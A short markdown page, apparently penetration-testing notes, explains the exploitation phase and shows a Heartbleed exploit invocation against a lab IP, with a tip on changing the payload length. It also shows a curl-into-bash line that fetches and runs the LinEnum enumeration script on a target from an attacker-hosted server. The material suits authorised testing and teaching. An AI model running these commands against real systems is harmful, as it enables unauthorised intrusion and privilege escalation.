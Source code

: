# Exploitation

Unlike a vulnerability assessment, a network penetration test takes such a test quite a bit further specifically by way of exploitation. Exploitation involves actually carrying out the vulnerability’s exploit (ie: buffer overflow) in an effort to be certain if the vulnerability is truly exploitable. During a RedTeam Security network penetration test, this phase consists of employing heavy manual testing tactics and is often quite time-intensive.

Exploitation may include but is not limited to: buffer overflow, SQL injection, OS commanding and more.


### Heartbleed
```
$ python heartbleed.py -x 10.10.10.125

```
You can change the payload size on line: 116
```
0x40, 0x00  # Payload length
  ^
Change this value to hex value to increase/decrease payload length  
```


### LinEnum.sh
The following tool will allow you to perform enumeration on a box that you do not have root access.

```
HOST MACHINE
$ python -m SimpleHTTPServer

TARGET MACHINE
$ curl 10.10.10.125:8000/LinEnum.sh | bash
```

